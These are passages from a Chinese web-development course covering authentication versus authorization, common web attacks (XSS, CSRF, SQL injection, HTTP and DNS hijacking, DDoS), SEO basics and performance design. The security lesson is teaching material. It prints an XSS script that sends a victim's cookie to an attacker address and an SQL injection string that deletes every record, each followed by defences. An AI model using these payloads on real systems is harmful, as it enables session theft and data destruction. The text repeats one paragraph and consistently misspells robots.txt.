**冒烟测试最容易出现的问题，是用例简洁程度和核心功能覆盖的不平衡**。冒烟测试要求用例尽可能简单，这样也能保证执行迅速，不拖慢整个部署的过程；但是，另一方面我们也希望核心功能都被覆盖到，许多团队容易犯的错误，就是在产品一开始的时候可以将冒烟测试的用例管理得非常好，但是随着时间进展，冒烟测试变得越来越笨重而庞大，最终失去了平衡。

<h1 id="chapter31">31 | 防人之心不可无：网站安全问题窥视</h1>

## 鉴权和授权

我把这两个概念的比较放在开头，是因为这两个概念有相关性且很常用，还有就是这二者太容易被混用了，但是实际上，它们却又是大不相同的。**鉴权，Authentication，指的是对于用户身份的鉴别；而授权，Authorization，指的是允许对于特定资源的指定操作**。

我们可以借助具体的例子来深入了解。

先说说鉴权。网站的登录系统，输入正确的用户名和密码以便登陆，这个过程就是一个鉴权参与的过程。输入了正确的用户名和密码，系统就能够确认用户的身份，鉴权也就成功了。再比如我们在 [第 02 讲] 中介绍的 HTTPS 通信，其中的密钥也是起到了“鉴别身份”的作用，这个起作用的过程也属于鉴权。

**为了安全考虑，在实际应用中鉴权有时不是靠“单因子”（Single-Factor）就够了的，我们还会采用“多因子”（Multi-Factor）的方式。**

举个例子，银行转账的时候，你光输入账号和转账密码，这是属于单因子，一般是不够的，还必须有其它的因子，比如说 U 盾等等。多个因子之间一般要求是独立的，无依赖关系。再比如说，你通过电话去办理通讯业务的时候，有时候为了证明你的身份，你会被要求提供 PIN 或者密码以外的其他“个人信息”，像是说出最近三次通话的电话号码，这些方式，都是为了增加“鉴权因子”的种类，从而提高安全级别。

再来举个授权的例子。还记得我们在 [第 04 讲] 中介绍的“资源”吗？对于不同的资源，不同的用户拥有不同的权限，而授权根据权限配置，确定用户对特定的资源是否能执行特定的行为。比如说，我们提到过的图书馆系统，授权确定用户是否能够查看图书信息，是否能够修改图书信息等等。


## 常见的 Web 攻击方式

## 1. XSS

XSS，Cross Site Script，跨站脚本攻击。原理是攻击者通过某种方式在网页上嵌入脚本代码，这样，正当用户在浏览网页或执行操作的时候，脚本被执行，就会触发攻击者预期的“不正当”行为。

举个例子。在 [第 29 讲] 中我介绍了会话的原理，服务端给用户分配了一个标识身份的字符串，整个会话生命周期内有效，保存在浏览器的 Cookie 中（如果你忘记了，请回看）。

现在，攻击者在服务器返回的普通页面中嵌入特殊的脚本代码，那么在普通用户浏览这个网页的时候，这个特殊的脚本代码就得到了执行，于是用户的 Cookie 通过请求的方式发送给了这个攻击者指定的地址，这样攻击者就劫持了用户的会话，利用 Cookie 中标识身份的字符串，就可以伪装成实际的用户，来做各种坏事了。这个过程见下图：


你可能会想了，那在服务器端严格控制，不让用户上传脚本不就得了？

可是，**这个恶意脚本的上传，往往是通过“正常”的页面访问来进行的，因此这个控制方法很容易疏漏。**比如给正常页面的请求添加特殊的参数，或者是提交信息表单的时候，构造一些特殊值。它们是利用网站的漏洞来做文章的，像是缺乏对用户上传的数据进行字符转义，而直接将这样的上传数据显示到页面上。

举个例子：用户可以在电商网站的产品页面提交对产品的评论，并且，这个评论会显示到产品页上。于是攻击者上传了这样一段产品评论：

```html
评论内容上半部分
<script>
  var script =document.createElement('script');
  script.src='http://...?cookie=' + document.cookie;
  document.body.appendChild(script);
</script>
评论内容下半部分
```

如果这个电商网站没有对用户上传的评论做转义或者字符过滤，那么这个评论在展示的时候会显示“评论内容上半部分”和“评论内容下半部分”，中间的 script 标签没有任何显示，但其中的脚本却被偷偷摸摸地执行了。

- 浏览器构造了一个新的 script 节点，并将其 src 属性指向攻击者指定的服务器地址，并将当前页面的 Cookie 放在其参数内。
- 接着，再将这个新的 script 节点添加到 HTML 页面的 body 标签内。
- 于是，浏览器就会向这个 src 的地址发送一个带有当前 Cookie 的请求。

于是攻击者就可以获得用户浏览器内的会话标识串，从而劫持用户的会话了，例如可以仿冒用户的身份购物并寄往指定地址。

知道了原理，我们就可以针对 XSS 的特点来进行防御，比如有这样两个思路：

- 第一个，做好字符转义和过滤，让用户上传的文本在展示的时候永远只是文本，而不可能变成 HTML 和脚本。
- 第二个，控制好 Cookie 的作用范围。比如服务器在返回 Set-Cookie 头的时候，设置 HttpOnly 这个标识，这样浏览器的脚本就无法获得 Cookie 了，而用户却依然可以继续使用 Cookie 和会话。

当然上述内容只是 XSS 原理的一个简单示意，实际的跨站脚本攻击会比这个复杂且隐蔽得多。而且，这个跨站脚本可不只是能偷偷摸摸地把用户的 Cookie 传给攻击者，还能做其它的事情，比如我下面将要介绍的 CSRF。

## 2. CSRF

CSRF，Cross-Site Request Forgery，跨站请求伪造，它指的是攻击者让用户进行非其本意的操作。CSRF 和 XSS 的最大区别在于，**在 CSRF 的情况下，用户的“非其本意”的行为全部都是从受害用户的浏览器上发生的，而不是从攻击者的浏览器上挟持用户会话以后发起的。**

在讲 XSS 的时候我讲到了，如果使用 HttpOnly 方式的话，攻击者就无法获得用户的 Cookie，因此之前例子所介绍的 XSS 就很难发生。但 CSRF 没有这个限制，它可以在不拿到用户 Cookie 的情况下进行攻击，也就是说，从这个角度上看，它更难以防范。

我们还是接着 XSS 中攻击脚本的例子，如果这段脚本不是将用户的 Cookie 上传，而是直接提交购物下单的 HTTP 请求，并寄往指定地址，那它和 XSS 中的那个例子比较起来看，后果是一样的。因此，从这个角度看，技术变了，从 XSS 变成了 CSRF，可危害程度并没有减轻。这个过程见下图：


值得一提的是，有时候这个请求伪造，不一定要通过 JavaScript 的脚本完成，比如依然是那个电商网站的例子，用户可以发布评论，并且这个评论的录入缺乏字符转义和过滤。现在我们把评论内容改成如下的样子：

```html
评论内容 1

评论内容 2
```

你看，原本中间的 script 脚本，变成了 img 标签，这个 img 图像的 src 是一个相对路径，这里指向的是登出的 URI。于是每当用户访问这个评论展示的页面，浏览器就试图去发送 logout 请求来加载这张假的图片，于是用户就“莫名其妙”地自动登出了。这里攻击者使用了一个 img 标签来发送这个登出的请求，而没有使用任何脚本。

在理解了原理之后，我们就可以制定一些应对策略了。除了和 XSS 一样，做好字符的转义和过滤以外，针对 CSRF，我们还可以考虑如下应对策略：

- 第一种，使用 HTTP 的 Referer 头，因为 Referer 头可以携带请求的来源页面地址，这样可以根据 Referer 头鉴别出伪造的请求。
- 第二种，使用 token，原理上也很简单，服务端给每个表单都生成一个随机值，这个值叫做 token。Token 和我们前面讲到的用来标识用户身份的 Cookie 所不同的是，前者是对每个页面或每个表单就会生成一个新的值，而后者则是只有会话重新生成的时候才会生成。当用户正常操作的时候，这个 token 会被带上，从而证明用户操作的合法性，而如果是 CSRF 的情形，这个请求来自于一个非预期的位置，那么就不可能带有这个正确的 token。

**值得注意的是，CSRF 和 XSS 不是地位均等的，具体说，在防范 CSRF 的情况下，必须首先确保没有 XSS 的问题，否则 CSRF 就会失去意义**。因为一旦用户的会话以 XSS 的方式被劫持，攻击者就可以在他自己的浏览器中假装被劫持用户而进行操作。由于攻击者在他自己的浏览器中遵循着正确的操作流程，因而这种情况下无论是 Referer 头还是 token，从服务端的角度来看都是没有问题的，也就是说，当 XSS 被攻破，所有的 CSRF 的防御就失去了意义。

## 3. SQL 注入

SQL 注入，指的是攻击者利用网站漏洞，通过构造特殊的嵌入了 SQL 命令的网站请求以欺骗服务器，并执行该恶意 SQL 命令。

乍一听也许你会觉得这种方式在技术上可能比较难实现，和前面介绍的在用户的浏览器上做文章比起来，毕竟 SQL 的执行是位于整个 Web 栈中较靠下的持久层，得“突破层层防守”才能抵达吧，可事实并非如此。

SQL 注入原本可是很常见的，这些年由于持久层框架帮 Web 程序员做了很多 SQL 参数注入的事儿，程序员就很少自己去手动拼接 SQL 了，SQL 注入的漏洞自然就少得多了，但是一旦出现，和 XSS 或 CSRF 比起来，由于不需要特定的用户访问指定的页面，攻击者可以独立完成入侵的过程，并且效果是可以执行 SQL，因而影响往往是巨大的。

比如有这样一条 SQL 的语句拼接：

```java
String sql = "DELETE FROM RECORDS WHERE ID = " + id + " AND STATUS = 'done'"
```

其中，这个 id 表示单条记录，且由用户的表单以字符串参数 id 的方式提交上来。这条 SQL 的本意是要删除一条以 id 为主键的记录，并且只有其状态在已完成（Status 为 done）的时候才允许删除。

现在，攻击者在提交的时候精心构造了这样一个字符串参数 id：

```js
"'123' OR 1 = 1 --"
```

于是，这条 SQL 语句在拼接后就变成了：

```sql
DELETE FROM RECORDS WHERE ID = '123' OR 1 = 1 -- AND STATUS = 'done'
```

你看，虽然 WHERE 字句包含了对 ID 的判断，但是后面有一个恒真的“或”条件“1 = 1”，而且后面的 STATUS 判断被注释符号“–”给屏蔽掉了。于是，这条恐怖的删除所有记录的 SQL 就被执行了。

现在你可以想象一下 SQL 注入的影响到底有多么严重了。在本章我已经提到过，程序的问题还好修复或回滚，但是数据造成的损失往往很难修复。

知道了原理，那么我们就可以采取相应的措施来应对了：

- 第一种，对于参数进行转义和过滤，这和我们前面介绍的 XSS 的应对是一样的。如果参数的格式明确，我们应当较为严格地校验参数，比如上面的例子，如果 id 实际是一个数值，那么用户输入非数值就应当报错。
- 第二种，SQL 的语句执行尽可能采用参数化查询的接口，而不是单纯地当做字符串来拼接。当然，一般在使用持久化框架的时候，这样的事情框架一般都替程序员考虑到了。
- 第三种，严格的权限控制，这和 Linux 下面权限控制的原则是一样的，保持“最小授权”原则，即尽可能只授予能实现功能的最小权限。

## 4. HTTP 劫持

HTTP 劫持的原理很简单，但是却非常常见。就是说，由于 HTTP 协议是明文通信的，它就可以被任意篡改。而干这事儿干得最多的，不是什么传统意义上的“黑客”，而是那些无良的网络服务提供商和运营商们，他们利用对网络控制之便利，通过这种方式强行给用户塞广告。

我有一个个人的博客网站，有一次有读者跟我说：“你为什么投放垃圾广告？”一开始我还很纳闷，我可从来没有干过这事儿啊，怎么会有广告，后来才知道，其实，这就是因为遭遇了无良运营商的 HTTP 劫持。下面的这个截屏（来自这篇文章），右下角的广告就是通过 HTTP 劫持干的。


虽然可以任意修改 HTTP 响应报文，但是修改就可能带来对原页面的影响。于是，攻击者为了对用户造成的影响尽量小，而达到“单纯”地投放广告的目的，很可能会使用 iFrame。它利用了 iFrame 和母页面相对独立的特性，比方说：

```html
<iframe id="fulliframe" name="fulliframe" frameSpacing=0 noResize height=1350 marginHeight=0 border=0 src="原网页" frameBorder=0 width="100%" scrolling=no vspale="0"></iframe>
```

你看，原网页被装到了一个 iFrame 里面去，并且这个 iFrame 没有边，大小占据了整个浏览器，因此用户很可能不知情，但是，整个页面实际已经被替换掉了，那么也就可以在这个 iFrame 以外添加浮动广告了。

对于 HTTP 劫持，由于攻击者利用了 HTTP 明文传输的特性，因此解决方案很简单，就是将网站切换为 HTTPS。至于其它的方法，相对都比较特例化，并不一般和通用，只有将传输加密才是最理想的解决方案。

## 5. DNS 劫持

DNS 劫持的原理也很简单（你如果忘记了 DNS 的工作机制，可以回看 [第 29 讲]），用户的浏览器在通过 DNS 查询目标域名对应的 IP 地址的时候，会被攻击者引导到一个恶意网站的地址。这个假的网站也可以有相似的页面布局，也可能有“正规”方式申请的 HTTPS 证书，换言之，**HTTPS 加密通信并不能防范 DNS 劫持**，因此用户很可能被欺骗而不察觉。

如果你还不是很理解，那让我再来进一步解释。当浏览器敲入域名地址并回车，用户在网上冲浪的整个过程，一环套一环，只要有任何一环存在安全隐患，那么其它环节的安全工作做得再好也是没有用的。DNS 假如被劫持了，浏览器都去和一个假冒的网站通信了，HTTPS 加密做的也只是保证你和这个假冒网站通信的完整性、保密性，那还有何用？**就好比要去药店买药，可去了家假的药店，那么保证整个交易过程的安全性就失去了它原本的意义了。**

对于真正开发维护 Web 网站或应用的程序员来说，DNS 劫持相对来说比较难以防范，因为 DNS 解析的步骤，从整个过程来看，请求根本还没有到达实际的应用，确实有些无能为力。

事实上，**安全防范的各个环节就像一个木桶的各个木板，网络公共服务的安全性，经常决定了用户网上冲浪安全性的上限**。2010 年的百度被黑事件，就是遭遇了 DNS 劫持。由于 DNS 解析的过程比较长，劫持可能发生在网络，也可以发生在本机（别忘了本机有 hosts 文件），还可能发生在某一个子网的路由。对于 DNS 网络明文通信带来的隐患，有一个安全的域名解析方案，叫做 DNS over HTTPS，目前还在实验阶段，仅有部分 DNS 服务支持。

## 6. DDoS 攻击

最后我来简单介绍一下 DDoS，Distributed Denial-of-Service，分布式拒绝服务，这种攻击方式从理论上说，最难以防范，被称为互联网的“癌症”。

为什么呢？因为它的原理是，攻击者使用若干被“攻陷”的电脑（比如被病毒占领和控制的“肉鸡”），向网络应用和服务同一时间发起请求，通过一瞬间的请求洪峰，将服务冲垮。

**DDoS 攻击的目的不是偷窃用户数据，也不是为了仿冒用户身份，而是“无差别”阻塞网络，引发“拒绝服务”，让正常使用网站和应用的用户难以继续使用，这个“无差别”最要命，简单、粗暴，但却有效。**

因此对于 DDoS 的攻击，我们需要整个网络链路配合，包括路由器、交换机、防火墙等等组件，采取入侵检测和流量过滤等多种方式来联合防范。这部分的内容涉及比较多，我在扩展阅读放了一点材料，感兴趣的话可以阅读。

<h1 id="chapter32">32 | 和搜索引擎的对话：SEO的原理和基础</h1>

今天，我们来聊一聊搜索引擎和 SEO（Search Engine Optimization）。当网站发布上线以后，我们希望通过适当的优化调整，让它可以被搜索引擎更好地“理解”，在用户使用搜索引擎搜索的时候，网站的内容可以更恰当地暴露给用户。

作为程序员，和更擅长于与内容打交道的运营相比，**我们的角度是不一样的，我们更关注工程实现而非网页内容，也更需要从原理的角度去理解 SEO**。这一讲，就让我们从理解互联网搜索引擎的工作原理开始。

## 互联网搜索引擎

要说 SEO，我觉得我们需要先来简单了解一下互联网上的搜索引擎。

## 组成部分

对于 Google 和百度这样的巨型 Web 搜索引擎来说，这里面的机制很复杂，而它们之间又有很多区别。比如被搜索的数据是怎样产生的，权重是怎样分配的，用户的输入又是怎样被理解的等等，但是大体上，它总是包含这样三部分。

## 1. 爬取（Crawling）

搜索引擎会有若干个“爬虫”客户端定期地访问你的网站，如果数据有了变更，它们会将可访问的网页下载下来。搜索引擎发现网页的方式，和人是一样的，就是通过超链接。因此理论上，如果你建立了一个网站，但是你没有主动“告知”搜索引擎，也没有任何网站页面有超链接指向它，那么它是无法被搜索引擎的爬虫发现的。

## 2. 建立索引（Indexing）

这一步其实就是将前面爬取的结果，经过解析和处理以后，以一种有利于搜索的方式归类存放起来。在 [第 26 讲] 我们介绍了搜索引擎的倒排索引机制。

## 3. 返回结果（Serving Results）

拆解用户的搜索条件，根据多种因素来决定返回哪些网页或其它资源给用户，也包括确定它们的展示顺序（Ranking）。

这三个大致的步骤协同合作并提供了如今互联网搜索引擎的服务，当然，实际过程会复杂得多。比方说，上述的第 2 步就要包含解析、分词、去重、去噪等等许多步的操作。

另外值得一提的是，搜索的数据现在确实都是增量更新的，可早些年其实并不是如此。Google 在 2003 年以前，爬虫完成不同的数据爬行需要不同的时间，其中最慢的需要几个月，之后的索引需要一周，数据分发也需要一周，在这以后才能被搜索到，因此人们往往也只能搜索到很早以前的数据（当然，那时候互联网的数据没那么大，变更也没那么频繁）。在一次重要更新 Fritz 以后，爬虫才每天都爬网页的数据，搜索数据也才做到了日更新。

## PageRank

纵观上面所述的三个步骤，从功能实现的流程和工程上面说，它们各自看起来并没有太大的技术门槛，但是搜索质量却天差地别。其中重要的一项就是怎样对返回给用户的网页进行排名，对于 Google 搜索，这一系列算法中最核心的那个，就叫做 PageRank。

在 PageRank 以前，排序大多依靠对搜索关键字和目标页的匹配度来进行，这种排序方式弊端非常明显，尤其对于善于堆砌关键字“舞弊”的页面，很容易就跳到了搜索结果的首页。但是这样的页面对于用户来说，价值非常小。

PageRank 算法的本质，就是利用网页之间的关联关系来确定网页的影响力权重。而这个关联关系，就是网页之间的超链接，换言之，如果一个页面被各种其它页面引用，特别是被“重要”的网站和页面引用，这就说明这个页面的权重更高。

在实际搜索的时候，**需要做到两个因素的平衡：一个是 Reputation，也就是上面说的这个影响力，它并不会因为用户单次搜索的关键字不同而改变；还有一个是 Proximity，也就是接近程度，这是根据用户搜索的关键字的匹配程度来确定返回网页的。**

如果只考虑 Reputation，那么所有用户搜到的东西都是一样的，这就不是一个搜索引擎了，而是一个网页的有序列表；如果只考虑 Proximity，那么用户搜到的东西就是杂乱无章的匹配页面，而不是像现在这样，将“重要”的页面显示在前面。无论是百度还是 Bing，**不同搜索服务的算法不同，但都是立足于做到这两个基本因素的制衡**。

## SEO 相关技术

下面我们再来从工程实现的角度一窥 SEO 技术。技术是要为业务目的服务的，我们最大的目的，是为了让网站的内容更真实、更合理地暴露在搜索引擎的搜索结果中。

## 1. 白帽和黑帽

当我们明确了上述的目的，遵循搜索引擎规则，通过正当和高效的技术途径来实现 SEO 的效果，这样的方法叫做**白帽（White Hat）法。相应的，如果是通过作弊、欺骗这样的手段，就叫做黑帽（Black Hat）法**。如果你了解过网络安全中的白帽和黑帽，那么这里的含义其实是一致的。

搜索引擎在评估网站前文所述的影响力的时候，有许许多多不同的“**Ranking Signal**”，它指的就是会影响返回的网页排序的“信号”，它们共同决定了一个页面的影响力，对于 Google 搜索来说 ，**前面我们提到的 PageRank，只是其中之一**。这里面大多数的信号，都可以应用相应的 SEO 规则来进行优化，我随便举几个例子：

- 网站的正常运行时间。比方说，如果一个站点，在爬虫爬取的时候总是遭遇 4xx、5xx 这样的错误，显然对影响力是一个负面的加权。
- 网站的年龄，网页内容的新鲜程度，好的原创内容总是最好的优化方式。
- 网站采用 HTTPS 还是 HTTP，显然 HTTPS 要更优。
- HTML 代码的质量，是否存在错误。
- 网页在站点访问的深度。

当然，黑帽法我们也来简单了解几个。

**关键字堆砌**：说白了就是放置大量的甚至和网页内容无关的关键字，比方说在页面上放置一些无关的关键字，并将它们的样式设置为透明，这样用户看不见，但是搜索引擎就以为这个页面和这些额外的关键字有关，在一些本该无关的搜索中会增加曝光度。**这其实就是给搜索引擎和用户看不同的页面**，搜索引擎看的页面堆砌了大量的无关关键字，而用户看到的才是正常的网页，这种方法被称为 Cloaking。

关键字堆砌：说白了就是放置大量的甚至和网页内容无关的关键字，比方说在页面上放置一些无关的关键字，并将它们的样式设置为透明，这样用户看不见，但是搜索引擎就以为这个页面和这些额外的关键字有关，在一些本该无关的搜索中会增加曝光度。这其实就是给搜索引擎和用户看不同的页面，搜索引擎看的页面堆砌了大量的无关关键字，而用户看到的才是正常的网页，这种方法被称为 Cloaking。

**链接农场**（Link Farm）：将网站链接放到很多本不该进行外链的其它网站页面上，比如花钱买一些不相关的内容，强行建立外链。不知道你有没有听说过“Google 轰炸”，它本质上就属于这种方法。当年人们搜索“more evil than Satan”（比撒但还邪恶）的时候，结果的第一条居然出现了微软的主页。

**Article Spinning**：这种技术将一些其它网站已有的内容拷贝过来，做一些用来欺骗搜索引擎的修改，让搜索引擎以为是一份新的内容。比如，替换一些特定的词语、句子，添加一些毫无意义的用户不可见的内容，等等。

## 2. 站内优化和站外优化

SEO 的优化方式，可以大致分为站内的和站外的。站内优化，其实指的就是在自己管理的网站内部做优化工作来实现 SEO。比如我们之前反复提到的关键字，现在，我们不妨动手来体会一下。

在浏览器地址栏中输入 https://time.geekbang.org，打开极客时间的页面，右键点击页面空白处并查看网页源代码，你会看到这样的 meta 标签：

```html
<meta name=keywords content=极客时间,IT,职业教育,知识付费,二叉树,极客Live,极客搜索,互联网,前端开发,后端开发,编程语言,人工智能,区块链,技术大会,技术管理,产品,研发,测试,运维,数据库,架构,微服务,实战,技术专家,Java,iOS,Android,Linux,Go id=metakeywords>
```

这就是极客时间网站的关键词，这些关键词会让搜索引擎用户在搜索的时候准确地找到这个网站。除了 keywords 的 meta 标签，还有一些其它起到帮助搜索引擎更准确地认识网站的 HTML 标签，比如 description 的 meta 标签，title 标签等等。对于 HTML 的正文，你也许还记得我们在 [第 17 讲] 介绍的 HTML 语义化标签，它们都可以帮助搜索引擎更好地理解内容。

正如其名，站外优化则和站内优化相反，优化工作是在目标站之外开展的，比如众所周知的“友情链接”，就是一种提供外链的站外优化方式。

## 3. roberts.txt

“roberts.txt”是网站根目录下直接能够访问到的文本文件，它是一个对于网络爬虫的规约，告诉它这个网站下哪些内容你是可以爬取的，哪些内容你是不能爬的。值得注意的是，**roberts.txt 不是标准，也不是规范，而是一种“约定俗成”**，几乎所有的搜索引擎都会遵守它。

这就好像你在你家门口贴了张条，哪些过路人可以敲你家的门，而哪些人不可以，那么路过的人大多会按这张纸条上的要求去做，但如果你不受欢迎而硬要去敲门（访问），那么也没有任何人可以阻止你，但至于主人开不开门（是否响应请求），或者给不给好脸色（是否返回正常结果），就是另一回事了。

现在，你可以打开浏览器，在浏览器中输入 https://www.google.com/robots.txt 来访问 Google 的 roberts.txt 文件。你将看到如下信息：

```s
User-agent: *
Disallow: /search
Allow: /search/about
Allow: /search/static
...
Disallow: /imgres
...
（省略大量 Disallow 和 Allow 的配置）

User-agent: Twitterbot
Allow: /imgres

User-agent: facebookexternalhit
Allow: /imgres

Sitemap: https://www.google.com/sitemap.xml
```

这是说，对于默认的爬虫（User-agent 为 *），/search 和 /imgres 是不允许爬取的，但是 /search/about 和 /search/static 是可以爬取的，请注意 Allow 指令比 Disallow 有更高的优先级；对于 Twitter 和 Facebook 的爬虫，却是允许访问 /imgres 的。

你可以看到，这样的配置是运行配置默认值，然后通过特殊值来覆写的（不知这能否让你回想起 [第 28 讲] 中介绍的类似的“默认值 + 特殊值覆写”的配置方式）。最后一行是网站地图 sitemap.xml 的位置，我们下面会讲。

另外，如果你想让搜索引擎友好一点，就不要那么频繁地访问你的网站，你可以使用 Crawl-delay 参数，用来告知连续的请求之间至少间隔多少秒，比如：

```
Crawl-delay: 5
```

同样的，你可以看看百度的 roberts.txt，访问 https://www.baidu.com/robots.txt，你会看到百度比较“特立独行”，它不允许 Google、有道、搜狗等多家搜索引擎的数据爬取。

除了全站的搜索引擎爬取设定以外，能够按页来设置吗？可以，这时候你需要使用一个名为 robots 的 meta 标签，这个标签在 HTML 的 head 内，用来告知该页的爬取策略。

```html
<meta name="robots" content="noindex,nofollow" />
```

除页面以外，HTML 的 a 标签（链接）也能够告诉搜索引擎不要进一步追踪爬取，方法就是使用 nofollow，如下：

```html
<a href="http://www.another-website.com/" rel="nofollow">另一个站点</a>
```

因此，是否允许爬取的建议，是可以在网站、页面和链接这三个级别分别设置的。

## 4. 网站地图

网站地图就像前面提到的 roberts.txt 一样，是另一个和搜索引擎对话的途径。网站可能非常大，爬取一遍耗时长，但**网站地图则可以清晰直接地告诉搜索引擎网站内“重要”的页面都有哪些（无论是否被链接指向），它们的更新习惯，包括最近一次是什么时候更新的，更新频率是多少，以及对于整个网站来说，不同页面的重要性比重是多少**。

对于使用 SPA（我们曾在 [第 17 讲] 介绍过 SPA，你可以回看）的网站应用来说，由于缺乏页面跳转，搜索引擎无法正确理解页面的关系、更新、指向等等，网站地图就显得更为重要了。

这次我来拿 B 站举个例子，访问 https://www.bilibili.com/sitemap.xml，你会看到如下的内容：

```xml
<sitemapindex xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <sitemap>
    <loc>http://www.bilibili.com/sitemap/v.xml</loc>
    <lastmod>2019-10-26T18:25:05.328Z</lastmod>
  </sitemap>
  ...
</sitemapindex>
```

它是由多个子 sitemap 配置文件组成的，随便打开一个，比如 http://www.bilibili.com/sitemap/v.xml：

```xml
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url>
    <loc>http://www.bilibili.com/v/douga/</loc>
    <lastmod>2019-10-26T18:25:17.629Z</lastmod>
    <changefreq>daily</changefreq>
  </url>
  ...
</urlset>
```

可以说一目了然，页面位置、上次修改时间，以及修改频率。这可以让搜索引擎有目的和有条件地扫描和爬取页面数据。

对于网站地图，除了被动等待爬虫的抓取，搜索引擎服务往往还提供另一种方式来报告网站地图的变更，那就是**允许网站管理员主动去提交变更信息，这种方式和爬虫来爬取比较起来，类似于我们从第一章就开始讲的 pull 和 push 的区别**，这种方式对于网站管理员来说更麻烦，但是显然可以更为及时地让搜索引擎获知并收录最新数据。

这种方式从实现上说，就是由搜索引擎服务的提供商开放了一个 Web API，网站在内容变更的时候调用，去通知搜索引擎（关于 Web API 的设计，你可以回看 [第 05 讲]）。

## 5. 统计分析

在进行 SEO 的改动调整之后，我们需要一些方式来跟踪和评估效果。像 Google Analytics 和百度统计，就提供了这样的功能。

原理上很简单，以 Google Analytics 为例，它会为你的网站生成一段 JavaScript 代码，你就可以把它嵌入每一个你希望得到跟踪的网页。这样，在页面访问时，这段代码会收集相关信息，并向页面嵌入一个大小为 1 像素的 gif 图片，而这个图片的 URL 带有当前浏览器、操作系统等等客户端的不同类型的信息。这样，Google Analytics 就可以捕获这些信息来完成数据统计了。

下面给出了我在 Mac 上访问极客时间的页面时，网页向 Google Analytics 服务器发送的统计信息 URL（别看这个 URL 没有 gif 字样，但这个请求返回的就是一个 gif 图片，这一点可以从响应的 Content-Type 中看出来）：

```js
https://www.google-analytics.com/collect?v=1&_v=j79&a=775923213&t=pageview&_s=1&dl=https%3A%2F%2Ftime.geekbang.org%2F&ul=en-us&de=UTF-8&dt=%E6%9E%81%E5%AE%A2%E6%97%B6%E9%97%B4&sd=24-bit&sr=1440x900&vp=575x729&je=0&_u=AACAAEAB~&jid=&gjid=&cid=248548954.1568164577&tid=UA-103082599-6&_gid=817127427.1571674409&z=266312543
```

通过收集这样的信息，可以获得很多网站用户的情况统计，比如访问量、页面停留时间、地区分布、电脑访问或手机访问的比例等等，并能观察这样的统计信息基于时间的走势。

<h1 id="chapter34">34 | 网站性能优化（上）</h1>

## 性能优化与软件设计

在最开始的部分，我想明确最重要的一件事——也许你已经听说过这句话——“**好的性能是设计出来的，而不是优化出来的**”。这就像是“高质量的软件是设计出来的，而不是测试出来的”一样，强调的都是软件设计的地位。因此，在设计阶段不考虑性能，而寄希望于在上线前后通过集中式的性能优化突击来将网站性能提高到另一个层次，往往是主次颠倒的。

我来举一个实际的例子说明下这一点吧。

在我参加工作不久后，曾经参与过的一个项目，用户的所有读写操作都要入库，当时的设计是把这样的数据放到关系数据库一个用户行为的表中，以供后续的查阅。上线以后，由于用户量大，操作频繁，很快这张表就变得巨大，读写的性能瓶颈都在这张表上，而且所有用户的操作都受到了影响，因为所有的操作都要写入这张表，在这时我被卷入这个项目，希望尽快解决这个性能问题。说实话，最初设计的时候没有考虑好，而这时候要做小修小改来解决这个功能的性能问题，是比较困难的。

具体来说，如果在设计阶段，这里其实是有很多可以考虑的因素的，它们都可以帮助提前介入这个性能隐患的分析和解决：

**产品设计角度**，用户的行为分为读操作和写操作，我们知道写操作通常更为重要，那用户的读操作是否有那么重要，可不可以只记录写操作？这样的数据有多重要，丢失的代价有多大，数据保密性是怎样的？这决定了一致性要求和数据存储在客户端是否可能。历史数据是怎样消费的，即数据访问模型是怎样的，那个时候 NoSQL 还没有兴起，但是如果不需要复杂的关系查询，这里还是可以有很大的优化空间的。

**技术实现角度，**能否以某种方式保留最近的若干条记录即可？这将允许某一种方式进行定期的数据淘汰、清理和归档。归档文件的组织形式又和数据访问模型有关，因为归档文件不支持任意的关系查询，那该怎样去支持特定的业务查询模型呢？比如将较老的记录归档到以用户 ID 和时间打散的历史文件中去，目的都是保证表的大小可控。哪怕是面对最糟糕的看似没有办法的“窘境”，只要预先考虑到了，我们还有对于数据库表进行 sharding 或者 partition 这样的看似“不优雅”，但是也能解决问题的通用方法。

上面我举了几个对于该性能问题的“优化”可以考虑的方面，但相信你也看到了，与其说这些手段是“优化”，倒不如说是“设计”。当时那个项目，我们被迫加班加点，周末时间顶着客户不满赶工出一个线上的临时处理方案来缓解问题，并最终花了一周时间重构这部分设计，才算彻底地解决了这个问题。

这个教训是深刻的，**从工程上看，整个设计、开发、测试到运维一系列的步骤里面，我们总是不得不至少在某一个步骤做到足够细致和周全，这里的细致指的是深度，而周全则意味着广度**。

最理想的情况当然是在产品设计阶段就意识到这个问题，但是这也是最难的；如果产品设计阶段做不到，那么开发实现阶段，开发人员通过深入的思考就能够意识到这个问题；如果开发阶段做不到，在测试阶段如果可以进行细致和周全的思考，也可以发现这个问题；如果测试阶段还没有做到，那就只好等着上线以后，问题发生来打脸了。当然，这里面的代价是随着工程流程向后进行而递增的。

到这里，我想你应该理解了为什么说“好的性能是设计出来的”，但是说说容易做却难。如果由于种种原因，我们还是遇到了需要在项目的中后期，来做性能优化的情况，那么这时候，我们可以遵循这样三条原则来进行：

- 问题定位，出现性能瓶颈，定位清楚问题的原因，是进行后面优化工作的前提；
- 问题解决，有时候问题比较棘手，我们可能会将解决方案划分为临时方案和长期方案，分别进行；
- 问题泛化，这指的是将解决一个问题泛化到更大的维度上，比如项目中还有没有类似的隐患？能不能总结经验以供未来的其他开发人员学习？这些是为了提高对未发生问题的预见性。

## 性能指标与关注点

在我们从产品经理手里拿到产品设计文档的时候，性能指标就应当有一定程度的明确了。性能指标基本上包含两个大类，一个是从业务角度定义的，另一个是从资源角度定义的。

通常产品经理给的需求或设计文档中，就应当包含一些关键的业务角度定义的性能指标了，但是资源角度的性能指标，产品经理通常不怎么关心。一般说来，比如我们**最关心的性能指标，也往往就是从业务角度定义的，它可以说是“越高越好”；而资源角度，程序员有时考虑的却是“越低越好”，有时则是“达标就好”。**

## 1. 业务角度

你可以回想一下 [第 21 讲]，我们在那时就介绍了缓存的使用动机，就是节约开销。这和性能指标的关注点如出一辙，既包括延迟（latency）和吞吐量（throughput），这两个同时往往也是业务角度最重要的性能指标，又包括资源消耗，这也完全符合前面说的资源角度。

延迟和吞吐量，这两个指标往往是应用性能评估中最重要的两个。先来明确二者的定义：延迟，其实就是响应时间，指的是客户端发送请求以后，到收到该请求的响应，中间需要的时间消耗；而吞吐量，指的是系统处理请求的速率，反映的是单位时间内处理请求的能力。

一般说来，**延迟和吞吐量是既互斥、又相辅相成的关系**。一图胜千言，且看这个典型例子


